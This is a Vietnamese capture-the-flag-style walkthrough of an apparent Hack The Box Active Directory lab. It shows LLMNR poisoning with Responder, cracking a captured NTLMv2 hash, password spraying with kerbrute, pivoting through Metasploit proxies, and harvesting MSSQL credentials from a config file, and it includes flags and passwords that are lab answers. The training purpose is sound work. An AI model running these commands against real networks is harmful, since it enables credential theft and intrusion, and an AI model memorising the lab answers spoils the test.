 0.043 ms (min round trip time)
 0.879 ms (avg round trip time)
 1.49 ms (max round trip time)
       15.304 sec (elapsed real time)
```

Cái này thực sự rất cuốn hút, chúng ta không có foothold nào và từ câu hỏi, tôi biết rằng mình phải làm là Network Poisoning

```zsh
sudo responder -I ens224
```

Nếu bạn gặp phải tình huống nó đã ghi hash này vào log trước đó, hãy xóa log của nó và bắt đầu lại. Hoặc đọc nó

```zsh
┌─[htb-student@skills-par01]─[/usr/share/responder/logs]
└──╼ $cat SMB-NTLMv2-SSP-172.16.7.3.txt 
AB920::INLANEFREIGHT:3991e2afefb8a67b:F4E4103BBFB254F05EF4C13959F89DB9:0101000000000000009B1A9F2EE0DB01EE82EF79A48E91DD0000000002000800300055005300560001001E00570049004E002D0057004700310035005500440036004D0042005800530004003400570049004E002D0057004700310035005500440036004D004200580053002E0030005500530056002E004C004F00430041004C000300140030005500530056002E004C004F00430041004C000500140030005500530056002E004C004F00430041004C0007000800009B1A9F2EE0DB0106000400020000000800300030000000000000000000000000200000736805C0A227AE2BE04B1EE1FD7B68E448FAA23684ECC51ADE5F671250EF5D8D0A0010000000000000000000000000000000000009002E0063006900660073002F0049004E004C0041004E0045004600520049004700480054002E004C004F00430041004C00000000000000000000000000
```

+ 1  What is this user's cleartext password?

```zsh
hashcat -m 5600 AB920_NTLM /usr/share/wordlists/rockyou.txt
```


AB920:weasal

+ 1  Submit the contents of the C:\flag.txt file on MS01.

Hiện giờ chúng ta chỉ có thể xác định được DC01

`172.16.7.3 inlanefreight.local dc01`

Nhanh chóng xác định các host còn lại:

```zsh
crackmapexec smb 172.16.7.50
SMB         172.16.7.50     445    MS01  
```

```zsh
crackmapexec smb 172.16.7.60
SMB         172.16.7.60     445    SQL01 
```

```zsh
172.16.7.3 DC01
172.16.7.50 MS01
172.16.7.60 SQL01
172.16.7.240 we are here
```

Vậy chúng ta sẽ thử xem liệu có thể có shell của MS01 với thông tin vừa tìm được hay không.

```zsh
impacket-psexec inlanefreight.local/AB920:weasal@172.16.7.50
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 172.16.7.50.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
```

```zsh
evil-winrm -i 172.16.7.50 -u AB920 -p weasal

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\AB920\Documents> whoami
inlanefreight\ab920
*Evil-WinRM* PS C:\Users\AB920\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```

```powershell
*Evil-WinRM* PS C:\> type flag.txt
aud1t_gr0up_m3mbersh1ps!
```

Mặc dù có shell foothold nhưng có vẻ như chúng ta không có quyền...


Chúng ta có thể rdp sang MS01, trước hết ta phải thiết lập sockproxy và auto route:

Lấy revshell từ máy linux về


Set socks4
```zsh
use auxiliary/server/socks_proxy
set srvhost 0.0.0.0
set srvport 9050
set version 4a
run
```

Set auto route
```zsh
use post/multi/manage/autoroute
set session 1
set subnet 172.16.7.0
set netmask /23
run
```

RDP to MS01

```zsh
proxychains xfreerdp3 /v:172.16.7.50 /d:INLANEFREIGHT.LOCAL /u:AB920 /p:weasal /drive:linux,/home/kali/Desktop/learning/AD_enum_attack/share 
```

Sau đó chúng ta nên chạy SharpHound.exe cho các bước quan trọng sau này.

+ 1  Use a common method to obtain weak credentials for another user. Submit the username for the user whose credentials you obtain.

Thử liệt kê SMB nhưng có vẻ không có gì.

```zsh
smbmap -u AB920 -p weasal -d INLANEFREIGHT.LOCAL -H 172.16.7.3 -R 'Department Shares' --dir-only
[+] IP: 172.16.7.3:445  Name: inlanefreight.local                               
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        Department Shares                                       READ ONLY
        .\Department Shares\*
        dr--r--r--                0 Fri Apr  1 11:04:17 2022    .
        dr--r--r--                0 Fri Apr  1 11:04:17 2022    ..
        dr--r--r--                0 Fri Apr  1 11:04:51 2022    Accounting
        dr--r--r--                0 Fri Apr  1 11:04:46 2022    Executives
        dr--r--r--                0 Fri Apr  1 11:04:41 2022    Finance
        dr--r--r--                0 Fri Apr  1 11:04:25 2022    HR
        dr--r--r--                0 Fri Apr  1 11:04:19 2022    IT
        dr--r--r--                0 Fri Apr  1 11:04:35 2022    Marketing
        dr--r--r--                0 Fri Apr  1 11:04:30 2022    R&D

```

Wow, tôi đã thử qua rất nhiều cách, đi đến đây thực sự cảm thấy thú vị và lo lắng rằng lối đi của mình không đúng. Tôi phải nhờ đến gợi ý rằng chúng ta sẽ phải `spray password`, điều mà không ai thực sự muốn, kể cả tôi.

Giờ đây chúng ta cần xem qua chính sách mật khẩu:

```zsh
sudo crackmapexec smb 172.16.7.3 -u AB920 -p weasal --pass-pol
SMB         172.16.7.3      445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.7.3      445    DC01             [+] INLANEFREIGHT.LOCAL\AB920:weasal 
SMB         172.16.7.3      445    DC01             [+] Dumping password info for domain: INLANEFREIGHT
SMB         172.16.7.3      445    DC01             Minimum password length: 1
SMB         172.16.7.3      445    DC01             Password history length: None
SMB         172.16.7.3      445    DC01             Maximum password age: 41 days 23 hours 53 minutes 
SMB         172.16.7.3      445    DC01             
SMB         172.16.7.3      445    DC01             Password Complexity Flags: 000000
SMB         172.16.7.3      445    DC01                 Domain Refuse Password Change: 0
SMB         172.16.7.3      445    DC01                 Domain Password Store Cleartext: 0
SMB         172.16.7.3      445    DC01                 Domain Password Lockout Admins: 0
SMB         172.16.7.3      445    DC01                 Domain Password No Clear Change: 0
SMB         172.16.7.3      445    DC01                 Domain Password No Anon Change: 0
SMB         172.16.7.3      445    DC01                 Domain Password Complex: 0
SMB         172.16.7.3      445    DC01             
SMB         172.16.7.3      445    DC01             Minimum password age: None
SMB         172.16.7.3      445    DC01             Reset Account Lockout Counter: 30 minutes 
SMB         172.16.7.3      445    DC01             Locked Account Duration: 30 minutes 
SMB         172.16.7.3      445    DC01             Account Lockout Threshold: None
SMB         172.16.7.3      445    DC01             Forced Log off Time: Not Set
```

Vấn đề là cái password policy này chỉ cho ta biết rằng chúng ta có thể thử thoải mái, ngoài ra không có gì đặc biệt. Do đó tôi đã hỏi một vài người và họ nhấn mạnh rằng `Welcome1` được nhắc đến rất nhiều trong các bài học về attack password. Và nó cũng là đáp án của câu hỏi sau. Vấn đề giờ là ta cần tìm chủ của cái mật khẩu này.

Trước hết lấy danh sách người dùng miền, lọc chúng ra một file.

```zsh
sudo crackmapexec smb dc01 -u AB920 -p weasal --users >> raw_data_users.txt
```

Xử lý chuỗi:

```zsh
cat raw_data_users.txt | grep 'badpwdcount' | awk '{print $5;}' | cut -d'\' -f2 > valid_users.txt
```

Tiến hành password spraying

```zsh
kerbrute passwordspray -d inlanefreight.local --dc 172.16.7.3 valid_users.txt Welcome1

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 06/18/25 - Ronnie Flathers @ropnop

2025/06/18 11:02:00 >  Using KDC(s):
2025/06/18 11:02:00 >   172.16.7.3:88

2025/06/18 11:02:14 >  [+] VALID LOGIN:  BR086@inlanefreight.local:Welcome1
2025/06/18 11:02:14 >  Done! Tested 2901 logins (1 successes) in 14.773 seconds
```

+ 1  What is this user's password?

Welcome1

+ 1  Locate a configuration file containing an MSSQL connection string. What is the password for the user listed in this file?

RDP sang MS01 với tư cách là `BR086`

```zsh
proxychains xfreerdp3 /v:172.16.7.50 /d:INLANEFREIGHT.LOCAL /u:BR086 /p:Welcome1 /drive:linux,/home/kali/Desktop/learning/AD_enum_attack/share 
```

Chạy Snaffler.exe chúng ta thu được một mật khẩu:

```powershell
[INLANEFREIGHT\BR086@MS01] 2025-06-18 15:55:55Z [File] {Yellow}<KeepDbConnStringPw|R|connectionstring.{1,200}passw|1.2kB|2022-04-01 15:04:05Z>(\\DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Private\Development\web.config) etEnvironmentVariable\("computername"\)\+'\\SQLEXPRESS;database=master;Integrated\ Security=SSPI;Pooling=true"/>\ \n\ \ \ \ \ \ \ </masterDataServices>\ \ \n\ \ \ \ \ \ \ <connectionStrings>\n\ \ \ \ \ \ \ \ \ \ \ <add\ name="ConString"\ connectionString="Environment\.GetEnvironmentVariable\("computername"\)\+'\\SQLEXPRESS';Initial\ Catalog=Northwind;User\ ID=netdb;Password=D@ta_bAse_adm1n!"/>\n\ \ \ \ \ \ \ </connectionStrings>\n\ \ </system\.web>\n</co
```

Như vậy chúng ta có một thông tin đăng nhập : ID=netdb;Password=D@ta_bAse_adm1n!

Tôi thử qua password spraying một lần nữa, nhưng có vẻ nó hướng ta tới thực thi lệnh trong mssql thay vì cho chúng ta một foothold trên SQL01.

```zsh
sudo crackmapexec smb 172.16.7.3 -u mssqlsvc -p 'D@ta_bAse_adm1n!'
SMB         172.16.7.3      445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.7.3      445    DC01             [-] INLANEFREIGHT.LOCAL\mssqlsvc:D@ta_bAse_adm1n! STATUS_LOGON_FAILURE 
```

Tôi cũng đã thử password spraying nhưng không thành công

```zsh
kerbrute passwordspray -d inlanefreight.local --dc 172.16.7.3 valid_users.txt 'D@ta_bAse_adm1n!'
```

Cuối cùng tôi quyết định thử với mssqlclient.py

```zsh
proxychains impacket-mssqlclient netdb@172.16.7.60
```

Sau đó chúng ta thử thực thi vài câu lệnh


Ở đây chúng ta thấy có quyền mạo danh tài khoản khác, như vậy khả năng cao đang có một tài khoản có `Session` ở  máy chủ này (SQL01, bạn có thể check bằng `hostname`). Chúng ta sẽ truy vấn nó trong BloodHound


Không ngoài dự đoán khi ở đây chúng ta có thể mạo danh mssqlsvc@inlanefreight.local

Để làm được điều này, ta cần một revershell, tốt nhất là cho `msfconsole` hoặc một `potato attack`.

+ 1  Submit the contents of the flag.txt file on the Administrator Desktop on the SQL01 host.

+10 Streak pts

 Submit

+ 1  Submit the contents of the flag.txt file on the Administrator Desktop on the MS01 host.

+10 Streak pts

 Submit

 Hint

+ 1  Obtain credentials for a user who has GenericAll rights over the Domain Admins group. What's this user's account name?

+10 Streak pts

 Submit

 Hint

+ 1  Crack this user's password hash and submit the cleartext password as your answer.

+10 Streak pts

 Submit

+ 1  Submit the contents of the flag.txt file on the Administrator desktop on the DC01 host.

+10 Streak pts

 Submit

+ 1  Submit the NTLM hash for the KRBTGT account for the target domain after achieving domain compromise.